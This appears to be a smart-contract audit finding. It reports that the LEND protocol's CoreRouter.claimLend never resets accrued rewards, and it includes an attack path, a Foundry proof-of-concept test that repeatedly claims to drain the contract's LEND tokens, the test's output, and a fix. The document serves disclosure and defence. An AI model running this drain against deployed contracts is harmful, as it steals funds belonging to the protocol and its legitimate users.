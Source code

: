 Polite Fern Porpoise

High

# Any user will drain all LEND rewards from the protocol

### Summary

Failure to reset `lendAccrued` after transferring rewards causes unlimited draining of LEND tokens from the protocol. Any user can repeatedly call `claimLend` to continuously withdraw rewards, severely impacting the protocol’s token reserves.


### Root Cause

In [CoreRouter.claimLend](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L400), the accrued rewards (`lendAccrued`) are **never reset** after transferring tokens to the user. This oversight allows rewards to be claimed repeatedly.

### Internal Pre-conditions

1. A user must initially accrue rewards by supplying or borrowing assets.
2. `lendAccrued` must remain greater than zero following the first successful claim.

### External Pre-conditions

None

### Attack Path

1. A user supplies assets and accrues initial LEND rewards.
2. The user calls `claimLend([user], supportedLTokens, true, true)` to legitimately claim rewards.
3. Since `lendAccrued` is not reset, the attacker repeatedly calls the same function.
4. The attacker continually receives identical reward amounts each call.
5. This process repeats until the `CoreRouter`'s LEND balance is completely drained.

This is demonstrated clearly in the provided test scenario and results.

### Impact

The protocol faces severe losses, potentially draining its entire balance of LEND tokens held by `CoreRouter`. Legitimate users lose accrued incentives permanently, as rewards intended for genuine participants are illegitimately claimed by the attacker.

### PoC

Here is the test output
```bash
[PASS] test_drain_lend_rewards() (gas: 1092625)
Logs:
  Initial LEND balance: 0
  Initial accrued rewards: 0
  LEND balance after first claim: 100000000000000000
  Legitimate rewards claimed: 100000000000000000
  lendAccrued after first claim: 100000000000000000
  Balance before claim: 100000000000000000
  Balance after claim: 200000000000000000
  Exploit claim 1 - Drained amount: 100000000000000000
  Balance before claim: 200000000000000000
  Balance after claim: 300000000000000000
  Exploit claim 2 - Drained amount: 100000000000000000
  Balance before claim: 300000000000000000
  Balance after claim: 400000000000000000
  Exploit claim 3 - Drained amount: 100000000000000000
  Total LEND drained beyond legitimate rewards: 300000000000000000
  Final lendAccrued value: 100000000000000000
```

and the test (`TestLendAccrual.t.sol`)
```solidity
    function test_drain_lend_rewards() public {
        // ===== SETUP =====
        // Supply tokens to start accruing LEND
        uint256 supplyAmount = 1000e18;
        (, address lToken) = _supply(supplyAmount, user1);

        // Get initial LEND accrued
        address lendToken = lendtroller.getLendAddress();
        uint256 initialLendAccrued = lendStorage.lendAccrued(user1);

        // Advance time and blocks
        vm.warp(block.timestamp + 1 days);
        vm.roll(block.number + 1000);

        // Setup claim parameters
        address[] memory holders = new address[](1);
        holders[0] = user1;
        LToken[] memory lTokenArray = new LToken[](1);
        lTokenArray[0] = LToken(lToken);

        // ===== EXPLOIT =====
        vm.startPrank(user1);
        
        // Record initial state
        uint256 initialLendBalance = IERC20(lendToken).balanceOf(user1);
        uint256 initialAccrued = lendStorage.lendAccrued(user1);
        
        console.log("Initial LEND balance:", initialLendBalance);
        console.log("Initial accrued rewards:", initialAccrued);

        // First legitimate claim
        coreRouter.claimLend(holders, lTokenArray, true, true);
        uint256 afterFirstClaim = IERC20(lendToken).balanceOf(user1);
        uint256 legitimateRewards = afterFirstClaim - initialLendBalance;
        
        console.log("LEND balance after first claim:", afterFirstClaim);
        console.log("Legitimate rewards claimed:", legitimateRewards);

        // Verify lendAccrued wasn't reset
        uint256 accruedAfterClaim = lendStorage.lendAccrued(user1);
        console.log("lendAccrued after first claim:", accruedAfterClaim);

        // Exploit: Repeatedly claim the same rewards after fresh LEND is added
        for (uint256 i = 0; i < 3; i++) {
            // Simulate new rewards arriving to CoreRouter
            deal(lendToken, address(coreRouter), legitimateRewards);
            
            uint256 balanceBefore = IERC20(lendToken).balanceOf(user1);
            console.log("Balance before claim:", balanceBefore);
            coreRouter.claimLend(holders, lTokenArray, true, true);
            uint256 balanceAfter = IERC20(lendToken).balanceOf(user1);
            console.log("Balance after claim:", balanceAfter);
            console.log("Exploit claim %s - Drained amount:", i + 1, balanceAfter - balanceBefore);
        }

        vm.stopPrank();

        // ===== VERIFICATION =====
        uint256 finalBalance = IERC20(lendToken).balanceOf(user1);
        uint256 totalDrained = finalBalance - afterFirstClaim;
        
        console.log("Total LEND drained beyond legitimate rewards:", totalDrained);
        console.log("Final lendAccrued value:", lendStorage.lendAccrued(user1));
    }
```

### Mitigation

Explicitly reset `lendAccrued` to zero after successfully transferring rewards in `claimLend` to prevent repeated illegitimate claims.